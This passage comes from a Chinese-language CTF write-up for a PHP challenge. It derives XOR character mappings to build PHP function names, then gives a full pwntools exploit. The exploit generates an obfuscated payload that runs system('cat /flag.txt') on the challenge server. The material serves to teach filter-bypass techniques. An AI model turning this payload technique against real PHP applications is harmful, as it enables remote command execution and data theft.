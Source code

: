 ```
 'r': ('[', ')'),
 '\x06': ('[', ']'),
 'k': ('[', '0'),
 '\x04': ('(', ','),
 'v': ('(', '^'),
 '\x01': ('(', ')'),
 '\x18': ('(', '0'),
 '\x02': (',', '.'),
 'q': (',', ']'),
 '\x1c': (',', '0'),
 'p': ('.', '^'),
 '\x07': ('.', ')'),
 '\x1e': ('.', '0'),
 '\x03': ('^', ']'),
 'n': ('^', '0'),
 't': (')', ']'),
 '\x19': (')', '0'),
 'm': (']', '0')}
 In [216]: for func in phpfuncs:
     ...:     if all(c in mapping for c in func):
     ...:         print(func)
     ...:
sqrt
strspn
strstr
strtr
```

多了一个 `strspn` 那么现在就有任意数字了，接下来就想办法构造 `chr` 函数：

```
'c': ('[', '8')
'h': ('[', '3')
'r': ('[', ')')
```

`chr` 出了就可以开始写 exp 了：

```python
from pwn import *

s      = "('['^'(')"
str    = f"{s}.(')'^']').('['^')')"
strstr = f"{str}.{str}"
sqrt   = f"{s}.(','^']').('['^')').(')'^']')"
zero   = f"({sqrt})(({strstr})('.',',')).''"
strspn = f"{str}.{s}.('.'^'^').('^'^{zero})"
num    = lambda x:f"({strspn})('{'.' * x}','.')"
phpchr = lambda x:f"(('['^{num(8)}.'').('['^{num(3)}.'').('['^')'))({num(ord(x))})"
phpstr = lambda str:'.'.join([phpchr(c) for c in str])

payload = f"({phpstr('system')})({phpstr('cat /flag.txt')})"
print(payload)

r = remote('phpfun.chal.idek.team', 1337)
r.recvuntil(b'Input script: ')
r.sendline(payload.encode())
r.interactive()
```
